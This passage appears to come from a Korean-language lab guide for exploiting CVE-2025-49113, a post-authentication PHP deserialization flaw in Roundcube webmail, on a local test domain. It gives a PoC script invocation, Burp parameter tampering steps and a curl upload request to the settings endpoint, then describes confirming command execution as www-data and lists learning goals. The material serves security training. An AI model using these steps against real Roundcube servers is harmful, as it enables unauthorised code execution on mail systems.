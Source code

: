 ```bash
- Application → Cookies → roundcube_sessid 존재
- 인증된 세션 유지됨
```

### 4단계: 취약점 테스트
```bash
# UI는 차단되었지만 백엔드 세션은 유효
# 따라서 직접 HTTP 요청으로 CVE 공격 가능

# 방법 1: PoC 스크립트 사용
python3 cve-2025-49113-exploit.py \
  --url http://webmail.1xinv.local \
  --username test@1xinv.com \
  --password yourpassword \
  --command "id"

# 방법 2: Burp Suite로 요청 조작
# 1. 세션 쿠키 추출
# 2. 악성 요청 수동 전송
# 3. _from 파라미터 조작

# 방법 3: curl로 직접 요청
curl -X POST \
  -H "Cookie: roundcube_sessid=YOUR_SESSION" \
  -F "_file=@malicious.png" \
  "http://webmail.1xinv.local/?_task=settings&_action=upload&_from=identity"
```

### 5단계: 결과 확인
```bash
# 성공 시
- 시스템 명령 실행 결과 확인
- 웹 서버 권한으로 코드 실행됨 (www-data)

# 로그 확인
tail -f /var/www/html/webmail/logs/errors.log
tail -f /var/log/apache2/webmail_error.log
```

---

## 📈 학습 목표

### 이 환경을 통해 배울 수 있는 것

1. **Post-Auth 취약점의 위험성**
   - 로그인만으로는 보안이 보장되지 않음
   - 인증 후에도 입력 검증이 중요

2. **PHP Object Deserialization 공격**
   - 직렬화된 객체의 위험성
   - Magic Method 체인 공격
